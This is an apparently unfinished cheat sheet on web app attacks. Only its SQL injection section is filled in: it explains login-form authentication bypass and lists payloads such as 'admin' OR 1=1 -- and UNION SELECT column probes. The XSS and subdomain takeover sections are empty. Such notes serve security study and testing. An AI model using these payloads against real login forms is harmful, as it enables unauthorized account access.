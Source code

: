 # Table of Content
1. [Web App](#webapp)
- [SQL Injection](#sqlinj)
- [XSS](#xss)
- [Subdomain Takeover](#subdomain)
















<a name="webapp"></a>
# Web App 

<a name="sqlinj"></a>
## SQL Injection

### Login Form 
Normally, a POST request would takes two parameters (i.e. username and password) from the login form. Thus, the SQL command at the backend is look something like this:

```SQL
SELECT * from TABLE where USERNAME='USERNAME' AND PASSWORD = 'PASSWORD';
```
The statement above mainly ask the Database to select the user where the username and password are matched with the one we input to the login form. 

Now, if we put below payload into the username field, 

```SQL
admin' OR 1=1 --
```
the whole SQL statement would becomes this:

```SQL
SELECT * from TABLE where USERNAME='admin' OR 1=1 --AND PASSWORD='PASSWORD';
```
So, now the statement above now turns to select the user where username is admin or 1=1. Please pay attention that ```--``` means comment out the rest of the statement. Thus, it doesnt matter whether you have put in anything to the password field. Now, the database would return the whole list of user from their database. And normally, a session with the first user in the database would be created for us. If the statement above can't log you in, you may also try something like below as SQL syntax might slightly varies in different brands of SQL.

```SQL
admin' OR 1=1 #
admin" OR 1=1 #
admin" OR 1=1 --
```
If above can log you in and you want to login as other users, you may use the statement below:

```SQL
 ' UNION SELECT 1 --
```
Thus, the whole SQL statement would becomes:

```
SELECT * from TABLE where USERNAME='' UNION SELECT 1 --AND PASSWORD='PASSWORD';
```



 ' UNION SELECT 1,2 # 
 ' UNION SELECT 1,2,3 # 
```


<a name = "xss"></a>
## XSS

<a name ="subdomain"></a>
## Subdomain Takeover



